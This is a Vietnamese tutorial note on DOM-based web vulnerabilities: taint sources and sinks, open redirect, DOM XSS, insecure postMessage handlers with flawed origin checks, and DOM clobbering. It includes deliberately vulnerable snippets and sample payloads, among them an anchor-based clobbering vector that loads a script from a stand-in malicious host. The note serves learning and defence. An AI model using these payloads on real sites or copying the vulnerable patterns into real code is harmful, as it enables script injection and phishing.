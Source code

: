 # DOM-based vulnerabilities
The Document Object Model (DOM) là dạng biểu diễn phân cấp của trình duyệt về các phần tử trên trang. Website có thể dùng JavaScript để thao tác các node và object trong DOM cũng như các thuộc tính của chúng. Bản thân việc thao tác DOM không phải là vấn đề; thực tế, đây là phần không thể thiếu của cách các website hiện đại hoạt động. Tuy nhiên, nếu JavaScript xử lý dữ liệu không an toàn, nó có thể mở ra nhiều kiểu tấn công. Lỗ hổng dựa trên DOM xuất hiện khi website có JavaScript lấy một giá trị có thể bị kẻ tấn công kiểm soát (gọi là source) và truyền nó vào một hàm nguy hiểm (gọi là sink).

## Taint-flow vulnerabilities
- Nhiều lỗ hổng DOM-based xuất phát từ việc code phía client xử lý dữ liệu do attacker kiểm soát (tainted data) không an toàn.
- Taint flow: là luồng dữ liệu chảy từ source (điểm vào) đến sink (điểm nguy hiểm). Nếu đi qua không kiểm soát → sinh ra lỗ hổng.

### Sources
Sources là các thuộc tính/biến trong JavaScript mà attacker có thể tác động:
```
location.search → đọc query string từ URL.
document.referrer → URL giới thiệu.
document.cookie → cookies
Web messages (postMessage).
```
Nói chung bất cứ dữ liệu nào attacker chỉnh được đều là source.

### Sinks
Là hàm/thuộc tính nếu nhận dữ liệu attacker đưa vào sẽ gây hậu quả:
```
eval() → chạy chuỗi như code JS.
document.body.innerHTML → chèn HTML độc hại (XSS).
```
Nói chung là nơi xử lý dữ liệu mà không kiểm tra.

### Khi nào lỗ hổng xảy ra?
- Khi dữ liệu từ `source` → đưa thẳng vào `sink` mà 
- không được lọc/validate.
Đây là **DOM-based vulnerability** trong session của client.

**Ví dụ: Open Redirect**
```js
goto = location.hash.slice(1)
if (goto.startsWith('https:')) {
  location = goto;
}
```
- `location.hash` là `source` (attacker chỉnh được qua #... trong URL).
- `location` là `sink` (nếu gán URL mới → trình duyệt tự chuyển hướng).

Attacker có thể gửi link:
```
https://www.innocent-website.com/example#https://www.evil-user.net
```
Khi nạn nhân click → bị `redirect` sang site độc hại → dùng để `phishing`.

### Common sources
Sau đây là các nguồn điển hình có thể được sử dụng để khai thác nhiều lỗ hổng taint-flow:
```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

Các loại dữ liệu sau đây cũng có thể được sử dụng làm source để khai thác lỗ hổng luồng dữ liệu độc hại:
#### Reflected DOM XSS: 
- Server nhận request, đưa dữ liệu vào response ngay lập tức (không lưu), và trang chứa script xử lý dữ liệu đó trên client rồi ghi vào sink.
- Ví dụ minh họa: server trả `eval('var data = "reflected string"');` và sau đó script dùng data một cách không an toàn → XSS.
#### Stored DOM XSS: 
- Server lưu lại dữ liệu từ một request (ví dụ comment), rồi khi người dùng khác mở trang, server trả nội dung đã lưu đó trong response. Nếu page chứa script xử lý dữ liệu lưu trữ này mà không kiểm tra → sẽ gây DOM XSS.
- Ví dụ minh họa: `element.innerHTML = comment.author` - nếu `comment.author` chứa payload thì payload sẽ được chèn và thực thi.
#### Web messages:
- `postMessage()` cho phép iframe/parent gửi dữ liệu giữa các tài liệu; nếu trang nhận (receiver) xử lý message đó không an toàn, dữ liệu từ message trở thành source để tấn công DOM.

- Nếu message được chấp nhận mà không kiểm tra origin hoặc kiểm tra sai cách, handler có thể đưa dữ liệu đó vào một sink (ví dụ eval, innerHTML, location, v.v.) → dẫn tới DOM-XSS hoặc hành vi độc hại khác.

- Cách tấn công: 
    - Xét đoạn mã sau:
    ```html
    <script>
        window.addEventListener('message', function(e) {
        eval(e.data);   // <- sink nguy hiểm, không kiểm tra origin -> vulnerable
        });
    </script>
    ```
    - Đoạn này dễ bị tổn thương vì kẻ tấn công có thể chèn payload JavaScript bằng cách tạo iframe như sau:
    ```html
    <iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
    ```
    - Bởi vì event listener không xác minh `origin` của message, và `postMessage()` được gọi với `targetOrigin` là `"*"`, nên event listener chấp nhận payload và truyền nó vào sink — trong trường hợp này là hàm `eval()`.

---

**Origin verification**

Ngay cả khi listener có kiểm tra origin, bước kiểm tra đó có thể sai căn bản. Ví dụ:
```js
window.addEventListener('message', function(e) {
    if (e.origin.indexOf('normal-website.com') > -1) {
        eval(e.data);
    }
});
```
Phương thức `indexOf` được dùng để cố gắng kiểm tra xem origin của web message đến có phải là domain `normal-website.com` hay không. Tuy nhiên, trong thực tế, nó chỉ kiểm tra xem chuỗi "normal-website.com" có xuất hiện ở bất kỳ vị trí nào trong URL origin hay không. Do vậy, kẻ tấn công có thể dễ dàng vượt qua bước kiểm tra này nếu origin của message độc hại là `http://www.normal-website.com.evil.net`

Lỗi tương tự cũng xảy ra với các kiểm tra dựa trên `startsWith()` hoặc `endsWith()`. Ví dụ, event listener sau đây sẽ cho origin `http://www.malicious-websitenormal-website.com` là an toàn:
```js
window.addEventListener('message', function(e) {
    if (e.origin.endsWith('normal-website.com')) {
        eval(e.data);
    }
});
```
---

**Những sink nào có thể dẫn đến lỗ hổng dựa trên DOM?**

| DOM-based vulnerability                      | Example sink |
|---------------------------------------------|--------------|
| DOM XSS                                      | `document.write()` |
| Open redirection                              | `window.location` |
| Cookie manipulation                           | `document.cookie` |
| JavaScript injection                          | `eval()` |
| Document-domain manipulation                  | `document.domain` |
| WebSocket-URL poisoning                       | `WebSocket()` |
| Link manipulation                              | `element.src` |
| Web message manipulation                       | `postMessage()` |
| Ajax request-header manipulation               | `setRequestHeader()` |
| Local file-path manipulation                   | `FileReader.readAsText()` |
| Client-side SQL injection                      | `ExecuteSql()` |
| HTML5-storage manipulation                     | `sessionStorage.setItem()` |
| Client-side XPath injection                    | `document.evaluate()` |
| Client-side JSON injection                     | `JSON.parse()` |
| DOM-data manipulation                          | `element.setAttribute()` |
| Denial of service                              | `RegExp()` |

## DOM clobbering

DOM clobbering là một kỹ thuật trong đó bạn chèn HTML vào một trang để thao túng DOM và cuối cùng thay đổi hành vi của JavaScript trên trang. DOM clobbering đặc biệt hữu ích trong những trường hợp không thể thực hiện XSS, nhưng bạn có thể kiểm soát một số HTML trên trang nơi thuộc tính id hoặc name được phép bởi bộ lọc HTML. Hình thức phổ biến nhất của DOM clobbering dùng phần tử anchor để ghi đè một biến global, biến này sau đó được ứng dụng sử dụng theo cách không an toàn, chẳng hạn để tạo URL script động.

**Ví dụ:**
```js
var someObject = window.someObject || {};
```
Nếu bạn có thể kiểm soát một phần HTML trên trang, bạn có thể clobber (ghi đè) tham chiếu `someObject` bằng một node DOM, chẳng hạn một anchor. Xem xét mã sau:
```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

Để khai thác đoạn mã dễ bị tổn thương này, bạn có thể chèn HTML sau để clobber tham chiếu someObject bằng một phần tử anchor:
```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```
Khi hai anchor sử dụng cùng một ID, DOM gom chúng lại thành một DOM collection. Vector DOM clobbering sau đó ghi đè tham chiếu `someObject` bằng collection DOM này. Thuộc tính `name` được dùng trên anchor cuối cùng nhằm clobber thuộc tính `url` của object `someObject`, khiến `script.src` trỏ tới một script ngoài (external) độc hại.